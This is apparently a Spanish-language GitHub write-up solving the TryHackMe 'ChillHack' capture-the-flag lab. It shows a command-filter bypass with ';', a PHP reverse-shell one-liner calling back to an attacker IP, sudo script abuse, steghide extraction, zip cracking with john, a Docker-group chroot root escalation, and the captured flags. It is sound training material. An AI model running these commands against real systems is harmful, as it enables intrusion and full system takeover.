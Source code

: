 # ChillHack
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos, esteganografía, el descubrimiento de contraseñas por fuerza bruta y la escalada de privilegios.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-steghide-FF5200?style=for-the-badge&logo=steghide&logoColor=white" />
  <img src="https://img.shields.io/badge/-unzip-000000?style=for-the-badge&logo=unzip&logoColor=white" />
  <img src="https://img.shields.io/badge/-zip2john-EBAF00?style=for-the-badge&logo=zip2john&logoColor=white" />
  <img src="https://img.shields.io/badge/-john-F4B942?style=for-the-badge&logo=john&logoColor=white" />
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una conxexión FTP.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Obtener una *shell* a partir de un *script*.
- Crear un servidor con *python3*.
- Obtener información oculta en imágenes.
- Descomprimir archivos.
- Crackear contraseñas.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *FTP*, *Bash*, *PHP*, *Netcat*, *Python3*, *Steghide*,  *Unzip*, *Zip2john*, *John*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.

El primer paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además, se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

<code>nmap -Pn -sV -O 10.10.198.179 -sC</code>

![Captura de pantalla 2025-04-12 174419](https://github.com/user-attachments/assets/b26cb007-7731-455d-a0bb-1105b85ab78b)

El comando devuelve 3 puertos TCPs abiertos:  
- En el puerto 21 corre la versión *vsftpd 3.0.3* del servicio *FTP*. Los *scripts* nos informan de que es posible acceder al servicio con el usuario 'Anonymous', el cual no necesita contraseña.
- En el puerto 22 corre la versión *Openssh 7.6p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.49*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerto 80 de la IP dada, donde se puede ver una página web de deportes. Después de inspeccionarla y navegar por ella, no se encuentra ninguna pista para la explotación.

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, aparecen varios pero llama la atención '/secret/', al cual nos dirigiremos primero. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'directory-list-lowercase-2.3-small.txt'.

<code>sudo python3 /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u 10.10.198.179 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt</code>

![Captura de pantalla 2025-04-12 183016](https://github.com/user-attachments/assets/5d917c94-9d13-4a58-8966-c37cae458572)

En el directorio '/secret' se encuentra un panel de comandos, el cual tiene una *blacklist*, por medio de la cual, se están filtrando e impidiendo utilizar una serie de palabras. Cada vez que salta este filtro, se muestra una imagen de alerta y un mensaje preguntando '¿eres un hacker?'. Después de realizar varias pruebas, se ha comprobado que hay maneras de saltarse el filtro como concatenando un comando válido con otro por medio de ';'. U ofuscando palabras cambiando caracteres por el signo de interrogación, por poner un ejemplo.

### Vulnerabilidades explotadas

Por una parte, se realiza la conexión *FTP* indicando la IP de la víctima, donde se encuentra un documento donde se mencionan 2 posibles usuarios del sistema 'Anurodh' y 'Apaar', e informa del filtrado que ya se ha comprobado en el formulario anterior: '*Anurodh told me that there is some filtering on strings being put in the command -- Apaar*'.

<code>ftp 10.10.198.179</code>

![Captura de pantalla 2025-04-12 175910](https://github.com/user-attachments/assets/5c4f80d6-b28d-424f-b830-a074bf2a182b)

Como se comentaba en el anterior apartado, el panel de comandos no permite según que palabras, tales como  <code>cat</code> o <code>ls</code>. Por todo esto, lo más cómodo será realizar una **reverse shell**. Así pues, antes se pretende comprobar si dispone de la herramienta de **php** la máquina, para realizar el ataque con esta. Concatenando los siguiente comandos se consigue una respuesta positiva.

<code>pwd;php --version</code>

Con todo esto, solo es necesario habilitar un puerto en escucha de la máquina atacante como se ha hecho en otras ocasiones. Y visistar la página de [*Pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) para obtener el código *php* para la *reverse shell* que se introducirá en el panel.

<code>nc -lvnp 1234</code>

<code>pwd;php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

![Captura de pantalla 2025-04-13 205517](https://github.com/user-attachments/assets/9e321c4d-87e2-4b48-9847-503742a49d91)

Hecho esto, se consigue una *shell* y se comprueba que somos el usuario 'www-data'. En el directorio '/home' aparecen 3 usuarios, de los cuales se tiene acceso a la carpeta de 'apaar'. Dentro de esta, se encuentra el archivo oculto '.helpline.sh', el cual es un *script* que pide introducir el nombre de la persona con la que quieres hablar y el mensaje que le quieres dejar. Puesto que no se sanitizan las posibles entradas por teclado, esto se puede utilizar para hacer aparecer la *shell* de Apaar y de esta manera, obtener acceso a su usuario.
Para ello se ejecuta el archivo con la ruta absoluta y con el usuario 'apaar'. Para que al provocar la *shell*, esta sea la de este usuario. Esto mismo se consigue introduciendo como respuesta a las preguntas del código <code>/bin/bash</code>.

<code>sudo -u apaar /home/apaar/.helpline.sh</code>

Una vez hecho esto se comprueba el usuario alcanzado y su 'id'.

![image](https://github.com/user-attachments/assets/45d7d820-8d96-442d-9c63-f16b6a56bee9)

Ahora ya se tienen los suficientes permisos para leer el archivo 'local.txt' (/home/apaar), donde se encuentra la primera de las *flags*.

**Flag: {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

A continuación se inspecciona el contenido del directorio '/var/www/files', en el cual hay un archivo *php* llamado 'hacker.php' que se puede ejecutar con el usuario Apaar. En este se nombra la imagen 'hacker-with-laptop_23-2147985341.jpg' y nos induce a analizarla más allá de lo que pueda mostrar a simple vista. Una referencia clara a buscar información oculta en la imagen por medio de esteganografía.

![Captura de pantalla 2025-04-13 213653](https://github.com/user-attachments/assets/52295999-99d8-499c-8ef8-48722fa0706f)

Así pues, primero se debe descargar la imagen creando un servidor desde la carpeta contenedora de la imagen con el módulo *http.server*, de **Python3**, e indicando el puerto en el que se hospedará el servidor. Desde el navegador se puede comprobar su creación y la existencia de la imagen junto con el resto de archivos del directorio en cuestión.

<code> python3 -m http.server 8000</code>

![Captura de pantalla 2025-04-13 214254](https://github.com/user-attachments/assets/a45013b7-436a-4c73-a04e-4758747414f1)

Desde la máquina atacante se procede a descargar el *jpg*, indicando la dirección del recurso. Seguidamente se extrae la información de la imagen con la herramienta **Steghide**, la cual vuelca los datos en el archivo 'backup.zip'. Se puede descomprimir con la herramienta **unzip** pero está protegido con contraseña, por lo que será necesario encontrar esta primero. Inicialmente se saca el *hash* del archivo con el binario **zip2john** y después se trabajará con él.

<code>wget http://10.10.118.151:8000/hacker-with-laptop_23-2147985341.jpg</code>

<code>steghide extract -sf hacker-with-laptop_23-2147985341.jpg </code>

<code>unzip backup.zip</code>

<code>zip2john backup.zip > pwd</code>

![Captura de pantalla 2025-04-13 215809](https://github.com/user-attachments/assets/0a35f730-e470-4fd8-954f-b27e4078ad1d)

Con **John** se prueban las diferentes palabras de la lista 'rockyou.txt' contra el archivo 'pwd' que contiene el *hash* antes obtenido. Finalmente, la herramienta encuentra la contraseña, siendo esta 'pass1word'. Ahora ya se puede descomprimir el *zip* indicándole la *password* encontrada y consiguiendo el archivo 'source_code.php'. 

<code>john --wordlist=/usr/share/wordlists/rockyou.txt pwd</code>

![Captura de pantalla 2025-04-13 220330](https://github.com/user-attachments/assets/3652c4fd-c63c-444b-9d21-7608617a8926)

En el código se puede ver como en una sentencia *if*, se iguala una contraseña con su forma en base64 para entrar dentro de la condición. Por lo que se intentará decodificar tal *password* con el siguiente comando.

<code>echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d</code>

![Captura de pantalla 2025-04-13 220539](https://github.com/user-attachments/assets/3a1d4338-44cc-40d6-909c-a95dc6a3773c)

Una vez obtenida la contraseña (*!d0ntKn0wmYp@ssw0rd*), se prueba con el usuario 'anurodh' y se pivota de nuevo de usuario. Se averigua que este pertenece al grupo *docker*, por lo que será útil para la escalada de privilegios. Esto es así porque este grupo otorga prácticamente permisos de administrador (*root*), puesto que el *daemon* de *Docker* tiene acceso completo al sistema. Así que cualquiera que esté en ese grupo podría, indirectamente, hacer cosas como *root*.

Por esto se pretenden ver las imágenes del *Docker*, que son como plantillas para crear contenedores. De las dos existentes nos quedamos con la más reciente *Alpine*. Con esto se puede ir a la página [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) para *bypasear* el binario *Docker* y realizar la escalada de privilegios.

<code>docker images</code>

<code>docker run -v /:/mnt --rm -it alpine chroot /mnt sh</code>

Finalmente, se ha alcanzado el usuario *root* y solo queda dirigirse a su directorio y obtener la *flag* del archivo 'proof.txt'.

![Captura de pantalla 2025-04-13 221157](https://github.com/user-attachments/assets/3a5ccc6e-22a7-44e0-8cdd-bec5a8c2c76b)

**Flag:{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
